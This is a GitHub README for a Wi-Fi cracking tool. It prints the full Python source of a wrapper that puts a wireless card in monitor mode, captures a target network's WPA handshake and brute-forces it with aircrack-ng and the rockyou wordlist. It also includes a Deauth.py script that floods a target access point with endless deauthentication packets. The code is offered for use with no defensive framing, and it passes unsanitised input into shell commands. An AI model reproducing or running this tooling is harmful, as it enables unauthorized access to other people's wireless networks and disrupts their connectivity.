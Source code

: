 # HackingWifiScript
This script written in python3 was created for simplified brute force scanning using the aircrack-ng utility.<br>
__You can look at the repository where everything is described in detail. <a href="https://github.com/John-MetrosSoftware/HackingWifi">Link</a>.__
## Installation for python3
### Libraries
- <a href="https://pypi.org/project/prompt-toolkit/0.5/">prompt_toolkit</a>

```
git clone https://github.com/John-MetrosSoftware/HackingWifiScript
cd HackingWifiScript
pip3 install prompt_toolkit
python3 HackingWifiScript.py
```

## Installation aircrack-ng
```
sudo apt install aircrack-ng
```


## HackingWifiScript.py

### Imports
```python3
import os
import sys
from prompt_toolkit import prompt
```

### Scanning 
```python3
def scan_wifi(): 
    # Removing redundant processes
    os.system('sudo airmon-ng check kill')

    # Display network devices
    os.system('sudo airmon-ng')

    # Display the name of the network device (default: wlan0)
    device = prompt('Device [wlan0]: ')
    if device.replace(' ', '') == '':device = 'wlan0'

    # Switching network device to monitor mode
    os.system('sudo airmon-ng start {}'.format(device))

    # Start scanning wifi networks
    os.system('sudo airodump-ng {}'.format(device))

    # Handshake name
    cap = prompt('Handshake name: ')
    if cap.replace(' ', '') == '':
        print('Error! You did not enter the name of the handshake. ({}).'.format(cap))
        while True:
            cap = prompt('Handshake name: ')
            if cap.replace(' ', '') != '':
                break

    # Access point channel
    cannel = prompt('Cannel: ')
    if cannel.replace(' ', '') == '':
        print('Error! You have not entered a channel. ({}).'.format(cannel))
        while True:
            cannel = prompt('Cannel: ')
            if cannel.replace(' ', '') != '':
                break

    # Access point bssid
    bssid = prompt('Bssid: ')
    if bssid.replace(' ', '') == '':
        print('Error! You did not enter bssid. ({}).'.format(cannel))
        while True:
            bssid = prompt('Bssid: ')
            if bssid.replace(' ', '') != '':
                break

    # Running a specific wifi network scan
    os.system('sudo airodump-ng -w {} -c {} --bssid {} {}'.format(cap, cannel, bssid, device))
```

### Bruteforce
```python3
def brute_force():
    while True:
        # Handshake input
        cap = prompt('Handshake name: ')  
        if cap.replace(' ', '') == '':
            print('Error! You did not enter the name of the handshake. ({})'.format(cap))
            while True:
                cap = prompt('Handshake name: ')
                if cap.replace(' ', '') != '':
                    break

        # Getting a dictionary file
        if os.path.isfile(cap) == True:
            list_ = prompt('List [/usr/share/wordlists/rockyou.txt]: ')
            if list_.replace(' ', '') == '':
                list_ = '/usr/share/wordlists/rockyou.txt'
            break
        else:
            print('Error! Could not find handshake file. ({}).'.format(cap))

    # Bruteforce
    os.system('aircrack-ng {} -w {}'.format(cap, list_))
```

### Main
```python3
def main():
    os.system('clear || cls')
    print('1. Scanning\n2. Bruteforce\n3. Exit\n')
    select = prompt('Select menu item $ ')
    if select == '1':
        scan_wifi()
    elif select == '2':
        brute_force()
    elif select == '3':
        sys.exit()
    else:
        print('Invalid parameter: \'{}\''.format(select))
```

### Init
```python3
if __name__ == '__main__':
    while True:
        try:
            main()
        except Exception as error:
            print('Error: {}'.format(error))
```

## Deauth.py
### Imports
```python3
import os
import sys
```

### Main
```python3
def main():
    os.system('sudo aireplay-ng --deauth 0 -a {} {}'.format(str(sys.argv[1]), str(sys.argv[2])))
```

### Init
```python3
if __name__ == '__main__':
    try:
        sys.argv[1]
        sys.argv[2]
    except:
        print('Error! Not enough launch options.')
        sys.exit()
    main()
```

 

## Compilation
I usually compile my projects using the <a href="https://pypi.org/project/pyinstaller/">pyinstaller</a> compiler with the following parameters:
```
pyinstaller -F HackingWifiScript.py
pyinstaller -F Deauth.py
```

When making edits in the code or other changes, mark the author I want to know how the project is developing.
## PEP8
<a href="https://pypi.org/project/autopep8/">autopep8</a> automatically formats Python code to conform to the PEP 8 style guide. It uses the pycodestyle utility to determine what parts of the code needs to be formatted. autopep8 is capable of fixing most of the formatting issues that can be reported by pycodestyle.
```
autopep8 HackingWifiScript.py --recursive --in-place
autopep8 Deauth.py --recursive --in-place
```
## Developer 
Email    : wwwkali00312@gmail.com<br>
Telegram : https://t.me/metrossoftware

